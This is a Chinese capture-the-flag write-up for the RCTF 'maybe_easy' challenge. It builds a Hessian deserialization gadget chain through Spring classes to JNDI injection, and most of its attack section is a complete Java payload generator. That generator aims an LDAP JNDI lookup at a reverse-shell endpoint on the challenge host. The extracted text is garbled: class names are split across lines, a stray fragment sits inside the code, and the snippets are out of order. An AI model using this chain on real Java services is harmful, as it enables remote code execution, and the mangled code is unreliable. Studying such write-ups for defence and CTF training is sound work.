


# maybe_easy

## 题目简述

Java 服务使用 Hessian 反序列化并有包名前缀白名单，同时题目给出的 `Maybe` 类继承 Proxy，`compareTo` 会转发到 `InvocationHandler`。解法在 Spring 白名单类中拼出 ObjectFactory/JNDI 调用链，再用 PriorityQueue 反序列化触发。

## 解题过程

### 关键观察

Java 服务使用 Hessian 反序列化并有包名前缀白名单，同时题目给出的 `Maybe` 类继承 Proxy，`compareTo` 会转发到 `InvocationHandler`。

### 求解步骤

题目给了一个 Maybe 类，其 compareTo 方法会调用 InvocationHandler

package com.rctf.server.tool;

import java.io.Serializable;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Method;
import java.lang.reflect.Proxy;
结合 HessianFactory 限制加载的 class 包名
不难得出如下几个符合条件的 InvocationHandler
org.springframework.beans.factory.config.ServiceLocatorFactoryBean$ServiceLocatorInvoc
ationHandler
org.springframework.beans.factory.support.AutowireUtils$ObjectFactoryDelegatingInvoca
tionHandler
org.springframework.beans.factory.config.AbstractFactoryBean$EarlySingletonInvocation
Handler
经过简单的分析，发现 org.springframework.beans.factory.support.AutowireUtils
$ObjectFactoryDelegatingInvocationHandler  可以调用 objectFactory.getObject
方法

public class Maybe extends Proxy implements Comparable<Object>, Serializable {
    public Maybe(InvocationHandler h) {
        super(h);
    }

    public int compareTo(Object o) {
        try {
            Method method = Comparable.class.getMethod("compareTo",
Object.class);
            Object result = this.h.invoke(this, method, new Object[]{o});
            return (Integer)result;
        } catch (Throwable e) {
            throw new RuntimeException(e);
        }
    }
}
static {
    WHITE_PACKAGES.add("com.rctf.server.tool.");
    WHITE_PACKAGES.add("java.util.");
    WHITE_PACKAGES.add("org.apache.commons.logging.");
    WHITE_PACKAGES.add("org.springframework.beans.");
    WHITE_PACKAGES.add("org.springframework.jndi.");
}
再继续寻找符合条件的 ObjectFactory 类，容易得到 org.springframework.beans.factor
y.config.ObjectFactoryCreatingFactoryBean$TargetBeanObjectFactory ，里面的
getObject 方法会调用 beanFactory.getBean  方法
众所周知 Spring 存在 org.springframework.jndi.support.SimpleJndiBeanFactory  这
个 BeanFactory，其 getBean 方法可以触发 JNDI 注入
因为题目环境是 JDK 8 + Spring，JNDI 注入后续可以打 Jackson 反序列化一条龙
最后回到最开头的 Maybe 类，借鉴 CB 链中的 PriorityQueue，其在反序列化时可以触发
compareTo 调用
最终 payload 如下
package test;

import com.rctf.server.tool.HessianFactory;
import com.rctf.server.tool.Maybe;
import org.springframework.beans.factory.BeanFactory;
import org.springframework.beans.factory.ObjectFactory;
import org.springframework.jndi.support.SimpleJndiBeanFactory;

import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.util.PriorityQueue;

public class Main {
    public static void main(String[] args) throws Exception {
        SimpleJndiBeanFactory simpleJndiBeanFactory = new
SimpleJndiBeanFactory();

 simpleJndiBeanFactory.setShareableResources("ldap://<challenge-host>:1389/Deser
ialize/Jackson/ReverseShell/<challenge-host>/65444");

        Class clazz;
        Constructor ctor;

        clazz =
Class.forName("org.springframework.beans.factory.config.ObjectFactoryCreatingF
actoryBean$TargetBeanObjectFactory");
        ctor = clazz.getDeclaredConstructor(BeanFactory.class, String.class);
        ctor.setAccessible(true);

JNDIMap
        ObjectFactory objectFactory = (ObjectFactory)
ctor.newInstance(simpleJndiBeanFactory,
"ldap://<challenge-host>:1389/Deserialize/Jackson/ReverseShell/<challenge-host>/65
444");

        clazz =
Class.forName("org.springframework.beans.factory.support.AutowireUtils$ObjectF
actoryDelegatingInvocationHandler");
        ctor = clazz.getDeclaredConstructor(ObjectFactory.class);
        ctor.setAccessible(true);

        InvocationHandler handler = (InvocationHandler)
ctor.newInstance(objectFactory);
        Maybe maybe = new Maybe(handler);

        PriorityQueue priorityQueue = new PriorityQueue(2);
        priorityQueue.add(1);
        priorityQueue.add(1);

        setFieldValue(priorityQueue, "queue", new Object[]{maybe, maybe});
        String data = HessianFactory.serialize(priorityQueue);
        System.out.println(data);
//        HessianFactory.deserialize(data);

    }

    public static void setFieldValue(Object obj, String name, Object val)
throws Exception {
        setFieldValue(obj.getClass(), obj, name, val);
    }

    public static void setFieldValue(Class<?> clazz, Object obj, String name,
Object val) throws Exception {
        Field f = obj.getClass().getDeclaredField(name);
        f.setAccessible(true);
        f.set(obj, val);
    }
}
反弹 shell 查看 flag

### PDF 图片

## 方法总结

- 核心技巧：Hessian 反序列化 gadget 链。
- 识别信号：可控对象实现 `Comparable`，反序列化容器会触发 `compareTo`。
- 复用要点：白名单不只看业务包，也要枚举允许包里的 Spring/JNDI 辅助类。
